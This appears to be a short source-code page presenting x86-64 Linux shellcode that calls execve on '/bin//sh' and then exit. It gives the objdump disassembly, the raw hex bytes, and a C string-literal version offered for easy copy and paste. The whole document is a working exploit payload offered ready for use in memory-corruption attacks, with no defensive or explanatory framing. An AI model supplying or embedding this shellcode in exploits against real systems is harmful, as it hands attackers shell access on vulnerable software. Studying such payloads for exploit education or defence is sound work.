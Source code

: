 # objdump of the text section

shellcode:     file format elf64-x86-64  


Disassembly of section .text:  
```
0000000000401000 <_start>:  
  401000:	6a 3b                	push   $0x3b  
  401002:	58                   	pop    %rax  
  401003:	48 31 d2             	xor    %rdx,%rdx  
  401006:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx  
  40100d:	2f 73 68   
  401010:	48 c1 eb 08          	shr    $0x8,%rbx  
  401014:	53                   	push   %rbx  
  401015:	54                   	push   %rsp  
  401016:	5f                   	pop    %rdi  
  401017:	52                   	push   %rdx  
  401018:	57                   	push   %rdi  
  401019:	54                   	push   %rsp  
  40101a:	5e                   	pop    %rsi  
  40101b:	0f 05                	syscall   
  40101d:	6a 3c                	push   $0x3c  
  40101f:	58                   	pop    %rax  
  401020:	48 31 ff             	xor    %rdi,%rdi  
  401023:	0f 05                	syscall   
```
# ShellCode in hexa

6a 3b 58 48 31 d2 48 bb
2f 2f 62 69 6e 2f 73 68
48 c1 eb 08 53 54 5f 52
57 54 5e 0f 05 6a 3c 58
48 31 ff 0f 05 

# Easy copy/paste to use in C language 
```
"\x6A\x3B\x58\x48\x31\xD2\x48"
"\xBB\x2F\x2F\x62\x69\x6E\x2F"
"\x73\x68\x48\xC1\xEB\x08\x53"
"\x54\x5F\x52\x57\x54\x5E\x0F"
"\x05\x6A\x3C\x58\x48\x31\xFF\x0F\x05"
```
